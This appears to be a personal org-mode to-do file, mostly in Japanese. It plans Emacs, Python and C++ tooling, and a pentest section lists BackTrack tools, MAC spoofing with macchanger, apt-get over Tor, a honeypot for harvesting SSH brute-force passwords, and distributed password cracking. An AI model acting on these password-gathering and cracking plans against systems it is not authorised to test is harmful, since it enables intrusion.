    [[file:~/.emacs.d/init/plugin/plugin_essential_init.el::setq%20anything%20c%20adaptive%20history%20file][file:~/.emacs.d/init/plugin/plugin_essential_init.el::setq anything c adaptive history file]]
    <2011-09-23 Fri>
** TODO [#C] multi-term
   screen terminal をタブにする。

   [[file:~/.emacs.d/init/plugin/plugin_essential_init.el::add%20hook][file:~/.emacs.d/init/plugin/plugin_essential_init.el::add hook]]
   <2011-09-19 Mon>
** TODO org-mode
   M-- で head があれば right-heading なければ org-insert-heading

   [[file:~/.emacs.d/init/mode/org_mode_init.el::define%20key%20org%20mode%20map%20kbd%20C%20M%20org%20insert%20heading][file:~/.emacs.d/init/mode/org_mode_init.el::define key org mode map kbd C M org insert heading]]
   <2011-10-06 Thu>

*** TODO [#A] org-remember から org-capture へ移行
    version 23 から 24 へ移行する
    memo.org と all_in_one.org を統合。

    [[http://skalldan.wordpress.com/2011/07/16/%E8%89%B2%E3%80%85-org-capture-%E3%81%99%E3%82%8B-2/][色々 Org Capture する | Amrta]]
    <2012-10-16 Tue>
*** TODO org mode yasnippet
    create link [[][]] の yasnippet

    [[file:~/mydoc/memo/memo.org::*Timeline%205%2014][Timeline {5/14}]]
    <2012-09-15 Sat>
** TODO w3m
*** DONE for windows
    CLOSED: [2013-03-02 06:04]

    [[info:elisp:Creating%20Buffer-Local][info:elisp:Creating Buffer-Local]]
    <2012-09-07 Fri>

*** TODO 検索 コマンド 設定
	gg: で検索できるようにする。
    [[info:elisp:Using%20Interactive][info:elisp:Using Interactive]]
    <2012-09-10 Mon>

*** TODO w3m fix

    [[http://www.google.com/][Google]]
    <2012-09-10 Mon>
** TODO create config mode
- squid config file
- log viewer
- ssh
- selinux

     [[file:~/mydoc/memo/memo.org::*create%20log%20viewer%20mode][create log viewer mode]]
     <2012-09-18 Tue>

*** TODO view tripwire report on emacs

    [[file:/data/mydoc/memo/memo.org]]
    <2011-10-06 Thu>
** TODO python-mode import popup
   python mode で import が書かれた場所を popup


   [[file:~/dev/py/kihalt/kihalt.py::king]]
   <2012-09-29 Sat>
** TODO memo, architecture, daily などの org を統合

   [[http://www.google.com/search%3Fq%3Demacs%2B%E6%9A%97%E5%8F%B7&hl%3Den&ie%3DUTF-8&oe%3DUTF-8&prmd%3Divns&ei%3DAbp5UOmEJMyYiAf6nYHwCg&start%3D10&sa%3DN][emacs 暗号 - Google Search]]
   <2012-10-14 Sun>
** TODO w3m minibuffer に link が表示されないようにする

   [[http://www.google.com/search%3Fq%3Demacs%2Bw3m%2Bminibuffer%2Blink&hl%3Dja&lr%3Dlang_ja&ie%3DUTF-8&oe%3DUTF-8&tbs%3Dlr:lang_1ja&prmd%3Divns&ei%3Dn117UKDAAqnImAWUj4HwAg&start%3D10&sa%3DN][emacs w3m minibuffer link - Google 検索]]
   <2012-10-15 Mon>
** TODO update-directory-autoloads に list の引数を渡せるようにする
   若しくは、 recursive-directory で書き直す

   [[file:~/.emacs.d/elisp/mylisp/make-init-loaddef.el::root%20emacs%20d%20elisp%20archives][file:~/.emacs.d/elisp/mylisp/make-init-loaddef.el::root emacs d elisp archives]]
   <2012-10-23 Tue>
** TODO [#B] byte-compile directory after svn commit

*** 背景 (問題点)
	svn commit 後ファイルの revision が変更され起動時に.elc
    .el の方が新しいと警告が出るので commit 後に byte-compile
    を自動化

*** 対応方法
	svn after hook
*** 優先順位の根拠
	compile をし忘れる
*** 備考
*** time/ref
<2012-11-06 Tue> / cf. [[file:~/mydoc/memo/memo.org::*keybind][keybind]]
** TODO [#A] svn commit log template

*** 背景 (問題点)
	commit log を書いていなかったのでこれを機に改善
*** 対応方法
	auto-insert や yasnippet から template を挿入
	若しくは、対話的に挿入していく
*** 優先順位の根拠
	よりよいコードを書く為に version 管理の改善を試みる
*** 備考
	1 行目は、ソースを何故修正したのか、一言で書き表す。
	2 行目はチケット No を書く。
	ソースの修正理由は、修正内容よりも、修正した理由をできる
    だけ書いた方がいい。
	ソースを差分比較すれば修正内容は分かるので、理由が一言でもあれば、ソースを理解しやすくなる。
*** time/ref
<2012-11-06 Tue> / cf. [[http://forza.cocolog-nifty.com/blog/2010/11/svn-91e6.html][SVN のコミットログの書き方: プログラマの思索]]
** TODO [#B] recentf 自動保存

*** 背景 (問題点)
	idle timer はあまり使いたくない
	しかし、 crash しても履歴は保存していてほしいので改善
*** 対応方法
	find-file-after-hook で idle-timer に recentf save を登録さ
    せる
	idle-timer を使わない場合 find-file がもたつく可能性があ
    る
	find-file-after-hook で実行する関数は idle-timer にすでに
    recentf-save が存在しているか確認する機能が必要
*** 優先順位の根拠
	crash 対策
*** 備考
*** time/ref
<2012-11-06 Tue> / cf. [[file:~/mydoc/memo/memo.org::*emacs%20jissen][emacs jissen]]
** TODO [#B] color-theme directory list-load-path-shadows

*** 結果
*** 背景 (問題点)
	color-theme の file が重複している

*** 対応方法
	remove file
*** 優先順位の根拠
	起動が遅くなっている可能性がある
*** 備考
*** time/ref
<2012-11-06 Tue> / cf.
** TODO [#C] auto-complete 時 に auto-highlight-symbol を停止

*** 結果
*** 背景 (問題点)
	auto-complete で補完時、 auto-highlight-symbol が実行され
    ると重くなる
*** 対応方法
	flymake の様に auto-complete で補完時に停止する。
*** 優先順位の根拠
	auto-highlight-symbol は現段階では実験中
*** 備考
*** time/ref
<2012-11-07 Wed> / cf. [[http://www.google.com/search%3Fq%3Dauto-highlight-symbol%2Bauto-complete&hl%3Dja&ie%3Dutf-8&oe%3Dutf-8&lr%3Dlang_ja][auto-highlight-symbol auto-complete - Google 検索]]
** TODO [#A] 日本語変換、辞書登録機能を利用した拡張を考える

*** 結果
*** 背景 (問題点)
	辞書登録を活用してみる。
	間違って日本語入力状態でタグを打ったりしてもスグに出るように「＜あ」で変換すると<a href=""></a>が出るとかしてるけど、そういう感じのをガンガン登録してみたらもちっと速くならないかな。
	意外にこの機能を使ってない人は多いのではないだろうか
*** 対応方法
	日本語変換
*** 優先順位の根拠
	良い拡張が作れそうな予感
*** 備考
*** time/ref
<2012-11-07 Wed> / cf. [[file:~/allinone.org::*][目標]]
** WAIT [#C] eval-after-load-progn 関数を作る

   1) 結果
   2) 背景 (問題点)
	  eval-after-load でいちいち progn を書かなくてはならない
      ので
   3) 対応方法
	  macro
   4) 優先順位の根拠
	  容易
   5) 備考
   6) time/ref
      <2012-11-09 Fri> / cf. [[file:~/.emacs.d/init/test_init.el::progn]]
** TODO [#C] Color Name 上からコマンドで該当 color-list に飛ぶか、その場に表示。

   1) 結果
   2) 背景 (問題点)
      source code に記載されている color code や 名前から色が
      わからない。
   3) 対応方法
      symbol 取得
      color-list 表示
      該当箇所へ search して飛ぶ
   4) 優先順位の根拠
      簡易かつ無くても困らない。
      あると便利。
   5) 備考
   6) time/ref
      <2012-11-20 Tue> / cf. [[file:~/.emacs.d/elisp/hl-line%2B.el::setq%20hl%20line%20face%20hl%20line][file:~/.emacs.d/elisp/hl-line+.el::setq hl line face hl line]]
** TODO [#C] 古い PC でも使える様にする

1) 結果
2) 背景 (問題点)
   古い PC で emacs を起動してももたつかないようにする。

3) 対応方法
   設定で system 環境を調べる
4) 優先順位の根拠
   緊急性はないが、いずれ使う機会はあると思う
   その時の為に備えておく。

5) 備考
6) time/ref
   <2012-11-25 Sun> / cf. [[http://www.google.com/search%3Fq%3DProperties%2Bemacs&hl%3Dja&ie%3Dutf-8&oe%3Dutf-8&lr%3Dlang_ja][Properties emacs - Google 検索]]
** TODO [#A] auto-save 文字化け

1) 結果
2) 背景 (問題点)
   auto-save した file が文字化けする
3) 対応方法

4) 優先順位の根拠
   重要な文章の損失を防ぐ
5) 備考
6) time/ref
   <2012-11-27 Tue> / cf. [[file:~/work/start-loader.el]]
** TODO [#C] start-loader-regexp-load の修正

1) 結果
2) 背景 (問題点)
   dolist で条件文が毎度呼ばれているので
   事前に変数に関数を入れる。
3) 対応方法
   backquart
4) 優先順位の根拠
   backquart が使いこなせるようになれば
5) 備考
6) time/ref
   <2012-11-27 Tue> / cf. [[file:~/.emacs.d/elisp/start.d/subroutines_start.el::if%20start%20loader%20profile%20flag][file:~/.emacs.d/elisp/start.d/subroutines_start.el::if start loader profile flag]]
** TODO [#C] check on Emacs 22 delete move to trash

1) 結果
2) 背景 (問題点)
   emacs 22 で削除した file が trash に移動しているか確認

3) 対応方法
4) 優先順位の根拠
   緊急の課題ではない
5) 備考
6) time/ref
   <2012-12-02 Sun> / cf. [[file:~/.emacs.d/elisp/start.d/Emacs22_trash-setting.el::LastChangedDate]]
** TODO [#C] org-remember の template

1) 結果
2) 背景 (問題点)
事前に作成した remember の template を変数として利用できない。
code が綺麗じゃないので利用できるようにする。

3) 対応方法
   org-remember の source を読む

4) 優先順位の根拠
   逼迫した需要はない
5) 備考
6) time/ref
    / cf. [[file:l:/Office/emacs/.emacs.d/elisp/start.d/org_mode_start.el::%3B%3B%20-*-%20Mode:%20Emacs-Lisp%20-*-][file:l:/Office/emacs/.emacs.d/elisp/start.d/org_mode_start.el::;; -*- Mode: Emacs-Lisp -*-]]
** TODO [#C] 関数名を反意文字に rotate する

1) 結果
2) 背景 (問題点)
   関数名によくつかわれる文字列を反意文字に rotate することに
   よって、簡易に一貫性を持たせることができる。
3) 対応方法
   rotate-text を使って elisp を書く
   open <=> close
   begin <=> end
   first <=> last
   min/max
   old/new
   visible/invisible
   source/target
   source/destination
   up/down
   big/small
   fast/slow
   tall/short
   real/false
   teach/learn
   fat/thin
   long/short
   go/stay
   hot/cold
   clean/dirty
   wet/dry
   dark/light
   sad/happy
   wide/narrow
   weak/strong
   ugly/beautiful

4) 優先順位の根拠
5) 備考
6) time/ref
    / cf. [[file:l:/Office/emacs/.emacs.d/elisp/start.d/Emacs_Lisp_mode_start.el::%3B%3B%20add-to-list%20rotate-text-rotations%20 ("t"%20"nil")][file:l:/Office/emacs/.emacs.d/elisp/start.d/Emacs_Lisp_mode_start.el::;; add-to-list rotate-text-rotations ("t" "nil")]]
** TODO [#C] change log 入力を統一

1) 背景 (問題点)
   外部の change log と file 内の change log の入力を同じインター
   フェースでおこなう。

2) 対応方法
   changelog.txt の関数から内容を取得

3) 優先順位の根拠
   あればよりよいコーディングができるが
   緊急性はない

4) 備考

5) 結果
6) time/ref
    / cf. [[file:p:/Office/emacs/.emacs.d/allinone.org::*Stack:][Stack:]]
** TODO [#B] stack point with link buffer & anything

1) 背景 (問題点)
   簡易に元にいた関数へ移動したい

2) 対応方法
   stack して buffer から飛ぶ

3) 優先順位の根拠
   実装できるとかなり捗る

4) 備考

5) 結果
6) time/ref
    / cf. [[file:p:/system/PortablePython/test/Lib/site-packages/pylint/lint.py::version,%20astng_version,%20common_version,%20sys.version)][file:p:/system/PortablePython/test/Lib/site-packages/pylint/lint.py::version, astng_version, common_version, sys.version)]]
** TODO [#C] C mode auto semicolon

1) 背景 (問題点)
   semicolon を付記し忘れを防ぐ

2) 対応方法


3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:/media/Data/MYTEMP/CPRIMER/page-0038.png]]
** TODO [#C] elisp compress to gz ".el" => ".el.gz"

1) 背景 (問題点)


2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.emacs.d/elisp/plugin/auto-async-byte-compile.el::(string-match%20"\\.el$"%20buffer-file-name)][file:~/.emacs.d/elisp/plugin/auto-async-byte-compile.el::(string-match "\\.el$" buffer-file-name)]]
** TODO [#C] python mode create parameter and function

1) 背景 (問題点)
   like pycharm

2) 対応方法
move parameter point or out function or class

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/wm/_core.py::def%20__init__(self,%20window,%20display%3DNone,%20cachetime%3D0.5):][file:~/.pylib/wm/_core.py::def __init__(self, window, display=None, cachetime=0.5):]]
** TODO [#C] python format yasnippet

1) 背景 (問題点)
usable yasnippet write format string

2) 対応方法


3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf.
** TODO [#C] python elisp, convert append=[] for loop to list compreehension

1) 背景 (問題点)
   tes = []
   for x in list:
       if x.startswith ('_'):
          tes.append (x)
   =>
   [x for x in list if x.startswith ('_')]

2) 対応方法
   write elisp

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf.
** DONE [#C] e2wm C-: C-i move cursor sub ipython 
   CLOSED: [2013-12-03 Tue 16:47]

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf.
** TODO [#C] e2wm plugin fixme, todo, bug annotation list

1) 背景 (問題点)

2) 対応方法
   select and move such a point

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf.
** TODO [#C] flycheck wave annotation to backgraund overlay

1) 背景 (問題点)
   misreading , & . on wave annotation

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf.
** TODO [#C] iswitchb C-: fix define

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.emacs.d/elisp/start.d/iswitchb_plugin_start.el::%3B%3B%20coding:%20utf-8][file:~/.emacs.d/elisp/start.d/iswitchb_plugin_start.el::;; coding: utf-8]]
** TODO [#C] python module auto-insert M key as blank for big module.

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/xahk/remap/builder/mainbuilder.py]]
* python:
** create init script by python
** TODO [#C] rope を読む

    [[file:/pentest/exploits/set/set::reload%20src%20core%20set][file:/pentest/exploits/set/set::reload src core set]]
    <2013-01-04 Fri>
** TODO [#C] standard library のカテゴリから module を選び挿入
    TEXT              string, textwrap, re
    DATA STRUCTURES   collections, bissect struct
    DATES AND TIMES   time, datetime, calendar
    ALGORITHMS        functools, operator
    MATHEMATICS       decimal, fractions, random, math
    etc..


    [[file:l:/Autohotkey/keybind.ahk]]
    <2013-01-19y>
** TODO [#C] surround command

1) 背景 (問題点)
   try, while, if, 文で囲む。

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:p:/Lib/.pylib/portable/update_usb.py::UPDATER_DIR%20%3D%20os.path.join (THIS_SCRIPT_DIR,%20SUBDIRNAME)][file:p:/Lib/.pylib/portable/update_usb.py::UPDATER_DIR = os.path.join (THIS_SCRIPT_DIR, SUBDIRNAME)]]
** TODO [#C] portable usb python script forensic

   [[file:~/mydoc/memo/memo.org::*create%20init%20script%20by%20python][create init script by python]]
   <2012-09-30 Sun>
** TODO [#C] def class の間の space を整る

1) 背景 (問題点)
   style guide に沿った coding を自動でできるように

2) 対応方法
   yasnippet and refactore whole buffer

3) 優先順位の根拠


4) 備考
   pep8

5) 結果
6) time/ref
    / cf.
** TODO [#C] weekly rsync usb ni

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf.
** TODO [#C] daily prompt always on top

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/aquos.py::-%20`passwd`:][file:~/.pylib/aquos.py::- `passwd`:]]
** TODO [#C] create ifstatement-p by elisp

1) 背景 (問題点)
   check in ifstatement-p

2) 対応方法
   check if line and operand varance

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/work/Python_Testing_Beginners_Guide/page-0022.png]]
** TODO [#C] backup restore ni check connected network

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/weekly.py::print ('move%20archive%20folder')][file:~/.pylib/weekly.py::print ('move archive folder')]]
** TODO [#C] refact all .pylib package

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/ref/__init__.py]]
** TODO [#C] beep on sys.expecthook

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/mytemp/beepmod.py::beeps%20%3D%20chr (amplitude)%20*%20half_period%20%2B%20chr (0)%20*%20half_period][file:~/.pylib/mytemp/beepmod.py::beeps = chr (amplitude) * half_period + chr (0) * half_period]]
** TODO [#C] ipython if get ImportError, suggetion similar package names as interctive

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/ipython_config.py::try:]]
** TODO [#C] function usable finish command

1) 背景 (問題点)

2) 対応方法
   rope-organize-import, pylint, nose, profile, overview

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf.
** TODO [#C] ipython ImportError and search similer name

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[http://www.google.com/search?q%3Dipython%2Bimporterror%2Bsimiller%2Bname&hl%3Den&ie%3Dutf-8&oe%3Dutf-8][ipython importerror similler name - Google Search]]
** TODO [#C] __exit__ need 4 argment, check with statement in test

1) 背景 (問題点)
if write this "def __exit__(self):" 
=> got error
TypeError: __exit__() takes exactly 1 argument (4 given)

we need write this "def __exit__(self, type, value, tb):"
but flymake not catch error.

2) 対応方法
auto test writer

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf.
* assembly:
* C C++:
** code_reading
*** code reading
	bacula 設定ファイル読み込み
	設定ファイルの構文に柔軟性があるので

    [[file:/mnt/ki/etc/bacula/bacula-dir.conf::Run%20Differential][file:/mnt/ki/etc/bacula/bacula-dir.conf::Run Differential]]
    <2011-08-08 Mon>

	laptop-detect
	apt-get
	iptables
** TODO code reading
   ethtool のケーブルが抜けているかどうかを確認する仕組みを調べる

   <2011-10-01 Sat>
** TODO [#C] : and ; coloring for miss reading
    
    [[file:/data/archive/ref/book/Programming/C_C++/C++/The_C++_standard_library_a_tutorial_and_reference/0205_The_C++_standard_library_a_tutorial_and_reference.png]]
** NOTE [#A] 
// clas_func.cc
class Test
{
public:
  void operator () (){
    ;
  }
};


int main (int argc, char **argv)
{
  for (int i = 0; i<1000000000; ++i)
    {
      Test ();
    }
  
  return 0;
}

// func.cc
void Test (){
  ;
}

int main (int argc, char **argv)
{
  for (int i = 0; i<1000000000; ++i)
    {
      Test ();
    }
  return 0;
}

    
# g++ -std=c++11 class_func.cc    
# time ./a.out                
./a.out  0.23s user 0.00s system 99% cpu 0.235 total

# g++ -std=c++11 func.cc
# time ./a.out          
./a.out  7.04s user 0.00s system 99% cpu 7.079 total
* server
** selinux
** kernel
** RAID1
** TODO recompile openssh
   - remove Banner
   - disable ipv6
* pentest
** learning backtrack
** change mac address on boot time
   - macchanger -e eth*
	 http://www.shadowrx.com/forums/showthread.php?t=1536




     <2011-09-12 Mon>

** IT law gathering
** apt-get throuth tor
** Boot Setting
*** 1. Stealth
	- no networking
	- ntp で時間を設定しない hwclock から取得
*** 2. Default
	- 時間を ntp で設定
	- rsync
*** 3. Fast crack
**** ケーブルが抜けているかどうかの確認
	 ethtool eth0

	 Link: detected : no


     <2011-10-01 Sat>

**** gathering hardware information
	 - ハードウェアの情報を集めるプログラム or スクリプトを作成。
	 - lspci
	 - lsusb
	 - hwinfo
	 - lshw
	 - dmidecode
	 - sensors
	 - fdisk -l , cat /proc/partitions
	 - hdparm -i <dev>
	 - hddtemp

*** 4. Forensic

** TODO gathering wordlist
   - sort 集めた wordlist を sort する。
   - 保有している wordlist に含まれていない wordlist を作成
	 即ち、保有している wordlist を試せば pure brute となるようにする。
	 おそらく、この wordlist を作成すれば膨大な容量になってしまうので
	 それに準ずるような物を考える。
   - honey pot を設置して ssh brute force の password を集める。
** TODO mailing list
** TODO Traceroute on Google Earth
** TODO /pentest/enumeration/ids/ftester
** TODO /pentest/enumeration/ids/pytbull/pytbulll
** TODO /pentest/enumeration/smtp/smtp-user-enum
** TODO /pentest/enumeration/smtp/swaks
** TODO /pentest/enumeration/web/cms-explorer
** TODO /pentest/enumeration/web/revhosts
** TODO /pentest/enumeration/web/whatweb
** TODO /pentest/enumeration/miranda

** TODO /pentest/enumeration/lanmap2
** TODO p0f
* Program
** TODO news timeline

   <2011-08-09 Tue>
** TODO 鯖落ち情報サイト


   <2011-07-25 Mon>

** TODO crack password by p2p
- cluster computing
** TODO cooking
   料理の材料リストアップなど自動化するプログラム作成
   メール送信機能なども実装。

   [[info:elisp:Lists]]
   <2011-09-17 Sat>

** TODO RSS [0/1]
   - [ ] Chromium-browser のソースを読む
*** 実装予定 [/]
	- [ ] 読んだ記事の統計を取る。
	- [ ] 新聞のようなスクラップ機能
**** 高機能な filter
	 - [ ] 広告の排除

** TODO autoit from emacs
auto it
autohotkey like elisp
** TODO oz
- elisp auto hotkey like
pywinauto autohotkey autoit
deffered.el
*** similer program
- autohotkey
- autoit
-
** TODO tracking me
- timeline
- excel

** TODO local network mapping real time
- lanmap
- netdiscover
** TODO shopping 
- search most low price
- search amazon, rakuten etc..
- show google map shopping location

** TODO emacs one note
- edit same file by multi user
** TODO hazard now
   - smart phone application
   - alert from hazard map
   
* Daily Task
** TODO Timeline [5/14]
   - [X] wireless securitytube
   - [X] backtrack5 wireless pdf
   - [X] metasploit pdf
   - [ ] securitytube assembly
   - [X] lfs-Book pdf
   - [ ] sed awk をマスター
   - [X] fhs-2.3.pdf directory name historicary
   - [ ] kernel reading
   - [ ] gcc reading
   - [ ] sh reading
   - [ ] zsh reading
   - [ ] wireshark reading
   - [ ] Structure_and_Interpretation_of_Computer_Programs.pdf
   - [ ] The_ShellCoder's_Handbook-Discovering_and_Exploiting_Security_Holes,2nd_Edition.pdf
** TODO code reading
*** C/C++
**** chrome
**** python
**** kernel
**** gcc
**** wireshark
**** tor
**** autohotkey
*** Elisp [11/91]
   - Rule
# 一日 =2= file source を読む
# source を読み改善できるところは改善する
# dot.emacs に反映させる。
**** TODO file:/root/work/emacs23-23.1+1/lisp/url/
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-about.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-auth.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-cache.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-cid.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-cookie.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-dav.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-dired.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-expand.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-file.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-ftp.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-gw.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-handlers.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-history.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-http.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-imap.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-irc.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-ldap.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-mailto.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-methods.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-misc.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-news.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-nfs.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-ns.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-parse.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-privacy.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-proxy.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-util.el
***** TODO file:/root/work/emacs23-23.1+1/lisp/url/url-vars.el

**** DONE file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/byte-run.el
**** DONE 50% file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/backquote.el
	 backquote-listify
	 backquote-process
	 backquote-delay-process
***** scratch
	  (setq b '(ba bb bc))
	  (ba bb bc)
	  b
	  (ba bb bc)
	  `(a b c)
	  `(a ,b c)
	  (a (ba bb bc) c)
	  `(a ,@b c)
	  (a ba bb bc c)

	  (defmacro backquote-list*-macro-tes (first &rest list)
	  "Like `list' but the last argument is the tail of the new list.

	  For example (backquote-list* 'a 'b 'c) => (a b . c)"
	  ;; The recursive solution is much nicer:
	  ;; (if list (list 'cons first (cons 'backquote-list*-macro list)) first))
	  ;; but Emacs is not very good at efficiently processing such things.
	  (setq list (nreverse (cons first list))
	  first (car list)
	  list (cdr list))
	  (if list
      (let* ((second (car list))
	  (rest (cdr list))
	  (newlist (list 'cons second first)))
	  (while rest
	  (setq newlist (list 'cons (car rest) newlist)
	  rest (cdr rest)))
	  newlist)
      first))

	  (backquote-list*-macro-tes 'a 'b 'c 'd)




	  (defmacro backquotetes (structure)
	  "Argument STRUCTURE describes a template to build.

	  The whole structure acts as if it were quoted except for certain
	  places where expressions are evaluated and inserted or spliced in.

	  For example:

	  b              => (ba bb bc)		; assume b has this value
	  `(a b c)       => (a b c)		; backquote acts like quote
	  `(a ,b c)      => (a (ba bb bc) c)	; insert the value of b
	  `(a ,@b c)     => (a ba bb bc c)	; splice in the value of b

	  Vectors work just like lists.  Nested backquotes are permitted."
	  (cdr (backquote-processtes structure)))




	  (defun backquote-processtes (s &optional level)
	  "Process the body of a backquote.
	  S is the body.  Returns a cons cell whose cdr is piece of code which
	  is the macro-expansion of S, and whose car is a small integer whose value
	  can either indicate that the code is constant (0), or not (1), or returns
	  a list which should be spliced into its environment (2).
	  LEVEL is only used internally and indicates the nesting level:
	  0 (the default) is for the toplevel nested inside a single backquote."
	  (unless level (setq level 0))
	  (cond
	  ((vectorp s)
      (let ((n (backquote-process (append s ()) level)))
      (if (= (car n) 0)
	  (cons 0 s)
	  (cons 1 (cond
	  ((not (listp (cdr n)))
	  (list 'vconcat (cdr n)))
	  ((eq (nth 1 n) 'list)
	  (cons 'vector (nthcdr 2 n)))
	  ((eq (nth 1 n) 'append)
	  (cons 'vconcat (nthcdr 2 n)))
	  (t
	  (list 'apply '(function vector) (cdr n))))))))
	  ((atom s)
      (cons 0 (if (or (null s) (eq s t) (not (symbolp s)))
	  s
	  (list 'quote s))))
	  ((eq (car s) backquote-unquote-symbol)
      (if (<= level 0)
      (cons 1 (nth 1 s))
      (backquote-delay-processtes s (1- level))))
	  ((eq (car s) backquote-splice-symbol)
      (if (<= level 0)
      (cons 2 (nth 1 s))
      (backquote-delay-processtes s (1- level))))
	  ((eq (car s) backquote-backquote-symbol)
      (backquote-delay-processtes s (1+ level)))
	  (t
      (let ((rest s)
	  item firstlist list lists expression)
      ;; Scan this list-level, setting LISTS to a list of forms,
      ;; each of which produces a list of elements
      ;; that should go in this level.
      ;; The order of LISTS is backwards.
      ;; If there are non-splicing elements (constant or variable)
      ;; at the beginning, put them in FIRSTLIST,
      ;; as a list of tagged values (TAG . FORM).
      ;; If there are any at the end, they go in LIST, likewise.
      (while (and (consp rest)
      ;; Stop if the cdr is an expression inside a backquote or
      ;; unquote since this needs to go recursively through
      ;; backquote-process.
      (not (or (eq (car rest) backquote-unquote-symbol)
      (eq (car rest) backquote-backquote-symbol))))
	  (setq item (backquote-process (car rest) level))
	  (cond
	  ((= (car item) 2)
	  ;; Put the nonspliced items before the first spliced item
	  ;; into FIRSTLIST.
	  (if (null lists)
	  (setq firstlist list
	  list nil))
	  ;; Otherwise, put any preceding nonspliced items into LISTS.
	  (if list
	  (push (backquote-listifytes list '(0 . nil)) lists))
	  (push (cdr item) lists)
	  (setq list nil))
	  (t
	  (setq list (cons item list))))
	  (setq rest (cdr rest)))
      ;; Handle nonsplicing final elements, and the tail of the list
      ;; (which remains in REST).
      (if (or rest list)
	  (push (backquote-listifytes list (backquote-process rest level))
      lists))
      ;; Turn LISTS into a form that produces the combined list.
      (setq expression
	  (if (or (cdr lists)
	  (eq (car-safe (car lists)) backquote-splice-symbol))
	  (cons 'append (nreverse lists))
	  (car lists)))
      ;; Tack on any initial elements.
      (if firstlist
	  (setq expression (backquote-listifytes firstlist (cons 1 expression))))
      (if (eq (car-safe expression) 'quote)
	  (cons 0 (list 'quote s))
	  (cons 1 expression))))))

	  (backquotetes `(a ,b c))

	  b

	  b              => (ba bb bc)		; assume b has this value
	  `(a b c)       => (a b c)		; backquote acts like quote
	  `(a ,b c)      => (a (ba bb bc) c)	; insert the value of b
	  `(a ,@b c)     => (a ba bb bc c)	; splice in the value of b


	  (defun backquote-delay-processtes (s level)
	  "Process a (un|back|splice) quote inside a backquote.
	  This simply recurses through the body."
	  (let ((exp (backquote-listifytes (list (cons 0 (list 'quote (car s))))
      (backquote-process (cdr s) level))))
      (if (eq (car-safe exp) 'quote)
      (cons 0 (list 'quote s))
      (cons 1 exp))))


	  (defun backquote-listifytes (list old-tail)
	  (let ((heads nil) (tail (cdr old-tail)) (list-tail list) (item nil))
      (if (= (car old-tail) 0)
	  (setq tail (eval tail)
	  old-tail nil))
      (while (consp list-tail)
      (setq item (car list-tail))
      (setq list-tail (cdr list-tail))
      (if (or heads old-tail (/= (car item) 0))
	  (setq heads (cons (cdr item) heads))
	  (setq tail (cons (eval (cdr item)) tail))))
      (cond
      (tail
      (if (null old-tail)
	  (setq tail (list 'quote tail)))
      (if heads
	  (let ((use-list* (or (cdr heads)
	  (and (consp (car heads))
	  (eq (car (car heads))
	  backquote-splice-symbol)))))
	  (cons (if use-list* 'backquote-list* 'cons)
	  (append heads (list tail))))
	  tail))
